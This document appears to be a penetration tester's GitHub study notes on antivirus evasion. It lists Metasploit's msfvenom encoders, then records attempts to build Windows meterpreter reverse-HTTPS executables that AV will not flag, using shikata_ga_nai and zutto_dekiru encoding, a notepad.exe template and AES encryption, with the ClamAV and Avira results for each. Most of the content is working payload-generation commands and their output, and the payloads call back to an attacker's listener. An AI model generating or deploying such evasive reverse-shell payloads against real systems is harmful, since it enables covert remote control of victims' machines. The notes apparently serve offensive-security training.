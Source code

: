 # Encoders
Metasploit provide encoders used solely for character substitution to replace bad characters in exploit payloads. Help bypass signatures

x86/shikata_ga_nai_ encoder is that is good for signature evasion


```
┌──(kali㉿kali)-[~]
└─$ msfvenom --list encoders

Framework Encoders [--encoder <value>]
======================================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/base64                    good       Base64 Command Encoder
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Bourne ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    ruby/base64                   great      Ruby Base64 Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder
    x64/xor_dynamic               normal     Dynamic key XOR Encoder
    x64/zutto_dekiru              manual     Zutto Dekiru
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
    x86/xor_poly                  normal     XOR POLY Encoder
```

Our payload
```
┌──(kali㉿kali)-[~]
└─$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x86/shikata_ga_nai -f exe -o hello.exe            
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 670 (iteration=0)
x86/shikata_ga_nai chosen with final size 670
Payload size: 670 bytes
Final size of exe file: 73802 bytes
Saved as: hello.exe
```

ClamAV scan will detect this so it no good. Detected shellcode encoded into the exe.
![image](https://github.com/user-attachments/assets/1fc887bb-1b12-4d7e-8924-3cbc380a7654)

Since x64 payload is less common we will try a x64 exe without encoding.
```
┌──(kali㉿kali)-[~]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443  -f exe -o hello.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 785 (iteration=0)
x86/shikata_ga_nai chosen with final size 785
Payload size: 785 bytes
Final size of exe file: 7168 bytes
Saved as: hello.exe
```

Clean scan 
![image](https://github.com/user-attachments/assets/ff3ce72f-4303-4b72-af98-8692c6082b1a)

Avira will detect this though
![image](https://github.com/user-attachments/assets/092e306a-20b9-47a8-aef1-9dc5ffc65463)


Let try another encoder. This time we will be using the x64/zutto_dekiru
```
┌──(kali㉿kali)-[~]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -e x64/zutto_dekiru -f exe -o hello_zutto.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 839 (iteration=0)
x64/zutto_dekiru chosen with final size 839
Payload size: 839 bytes
Final size of exe file: 7168 bytes
Saved as: hello_zutto.exe
```

Avira detect this again
![image](https://github.com/user-attachments/assets/b8bc6745-4f2a-41c7-8eea-f34765f33dfc)

copy the notepad application located at
C:\Windows\System32\notepad.exe to Kali and use it as a
template for our payload
```
┌──(kali
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.176.134 LPORT=443 -e x64/zutto_dekiru -x ./notepad.exe -f exe -o 64_notepad.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 739 (iteration=0)
x64/zutto_dekiru chosen with final size 739
Payload size: 739 bytes
Final size of exe file: 225792 bytes
Saved as: 64_notepad.exe
```

Not effective cant use any msfvenom encoding outdated
![image](https://github.com/user-attachments/assets/9254fdfe-c328-4541-bdf2-0b7eb50ac79c)

Encryptor like the one below is also outdated
So look like we have to write our own runner to bypass AV solution
```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o static.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 691 bytes
Final size of exe file: 7168 bytes
Saved as: static.exe

```

![image](https://github.com/user-attachments/assets/12e782bc-ebbc-436c-94af-3dd08c029fa7)



